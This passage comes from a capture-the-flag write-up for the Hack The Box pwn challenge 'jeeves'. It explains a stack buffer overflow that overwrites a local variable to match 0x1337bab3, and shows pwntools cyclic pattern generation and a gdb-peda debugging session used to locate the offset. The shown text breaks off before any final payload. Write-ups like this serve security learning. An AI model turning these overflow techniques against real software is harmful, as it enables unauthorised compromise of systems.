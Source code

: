 *As we can see the variable local_48 is on the top and the return is located in bottom.However we don't wanna over right the return address. The variable local_c and other variables comes between them. To retrive the flag we need change the value of local_c, so if we find the offset of local_c mostlikely we can change the value to 0x1337bab3 *

#### Actual Exploitation

* Finding the offset

*Using python3 to generate patterns*
```python
┌──(root💀Jude)-[~/htb/challenges-htb/pwn/jeeves]
└─# python3                                                                                                
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> 
```

*we already have set a break point in cmp instruction. so lets run the program and input the pattern*

```bash
gdb-peda$ run
Starting program: /root/htb/challenges-htb/pwn/jeeves/jeeves 
Hello, good sir!
May I have your name? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Hello aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa, hope you have a good day!
[----------------------------------registers-----------------------------------]
RAX: 0x86 
RBX: 0x0 
RCX: 0x0 
RDX: 0x0 
RSI: 0x5555555592a0 ("Hello aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa, hope you have a good day!\n")
RDI: 0x7ffff7fa7670 --> 0x0 
RBP: 0x7fffffffdff0 ("qaaaraaasaaataaauaaavaaawaaaxaaayaaa")
RSP: 0x7fffffffdfb0 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
RIP: 0x555555555236 (<main+77>: cmp    DWORD PTR [rbp-0x4],0x1337bab3)
R8 : 0xffffffff 
R9 : 0x86 
R10: 0x7fffffffdfb0 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")
R11: 0x246 
R12: 0x555555555100 (<_start>:  endbr64)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555555225 <main+60>:    lea    rdi,[rip+0xe04]        # 0x555555556030
   0x55555555522c <main+67>:    mov    eax,0x0
   0x555555555231 <main+72>:    call   0x5555555550a0 <printf@plt>
=> 0x555555555236 <main+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
   0x55555555523d <main+84>:    jne    0x5555555552a8 <main+191>
   0x55555555523f <main+86>:    mov    edi,0x100
   0x555555555244 <main+91>:    call   0x5555555550e0 <malloc@plt>
   0x555555555249 <main+96>:    mov    QWORD PTR [rbp-0x10],rax
```